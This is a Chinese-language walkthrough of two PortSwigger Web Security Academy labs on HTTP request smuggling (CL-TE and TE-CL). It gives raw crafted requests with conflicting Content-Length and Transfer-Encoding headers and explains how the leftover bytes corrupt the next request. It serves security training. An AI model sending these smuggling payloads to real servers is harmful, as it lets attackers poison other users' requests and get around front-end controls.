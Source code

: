 Lab 地址：https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te

构造数据包

```
POST / HTTP/1.1\r\n
Host: ace01fcf1fd05faf80c21f8b00ea006b.web-security-academy.net\r\n
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0\r\n
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n
Accept-Language: en-US,en;q=0.5\r\n
Cookie: session=E9m1pnYfbvtMyEnTYSe5eijPDC04EVm3\r\n
Connection: keep-alive\r\n
Content-Length: 6\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
G
```

![输入图片说明](https://images.gitee.com/uploads/images/2020/0818/211156_ebf9221b_508704.png)

由于前端服务器处理Content-Length，所以这个请求对于它来说是一个完整的请求，请求体的长度为6，也就是

```
0\r\n
\r\n
G
```

当请求包经过代理服务器转发给后端服务器时，后端服务器处理Transfer-Encoding，当它读取到0\r\n\r\n时，认为已经读取到结尾了，但是剩下的字母G就被留在了缓冲区中，等待后续请求的到来。

当我们重复发送请求后，发送的请求在后端服务器拼接成了类似下面这种请求。


```
GPOST / HTTP/1.1\r\n
Host: ace01fcf1fd05faf80c21f8b00ea006b.web-security-academy.net\r\n
......
```

服务器在解析时当然会产生报错了。

## TE-CL

所谓TE-CL，就是当收到存在两个请求头的请求包时，前端代理服务器处理Transfer-Encoding这一请求头，而后端服务器处理Content-Length请求头。

Lab地址：https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl

构造数据包

```
POST / HTTP/1.1\r\n
Host: acf41f441edb9dc9806dca7b00000035.web-security-academy.net\r\n
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0\r\n
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n
Accept-Language: en-US,en;q=0.5\r\n
Cookie: session=3Eyiu83ZSygjzgAfyGPn8VdGbKw5ifew\r\n
Content-Length: 4\r\n
Transfer-Encoding: chunked\r\n
\r\n
12\r\n
GPOST / HTTP/1.1\r\n
\r\n
0\r\n
\r\n
```
